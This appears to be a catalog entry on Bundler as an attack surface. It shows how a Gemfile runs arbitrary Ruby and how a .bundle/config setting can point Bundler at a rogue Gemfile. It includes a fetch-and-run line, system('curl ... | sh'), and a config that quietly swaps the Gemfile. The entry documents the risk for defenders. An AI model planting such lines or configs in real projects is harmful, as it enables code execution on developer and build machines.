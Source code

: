 ```yaml
---
title: bundler
tags:
- cli
- eval-sh
- config-file
references: 
- https://bundler.io/v2.5/man/bundle-config.1.html
files: ['Gemfile', '*.gemspec*', '.bundle/config']
purl: pkg:gem/bundler
---
```


Bundler is Ruby's package manager. It uses a Ruby file called `Gemfile` to specify dependencies and versions. Any Ruby code can be added to it and will be executed when the `bundle` command is run.

```ruby
system("curl ... | sh")
```



If the Gemfile cannot be modified, Bundler can use a local configuration in `.bundle/config` that allows changing the path of the Gemfile. 

```yaml 
---
BUNDLE_GEMFILE: "NotGemfile"
BUNDLE_PATH: "vendor/bundle"
BUNDLE_DEPLOYMENT: "true"
```

The rogue Gemfile `NotGemfile` can then be used to execute commands:
```ruby

# Execute arbitrary commands
system("curl ... | sh")
 
# Optional: load the original Gemfile to avoid errors
eval_gemfile "Gemfile"
```

Note: Bundler configuration properties defined in `$HOME/.bundle/config` and in environment variables have precedence over the local configuration file.
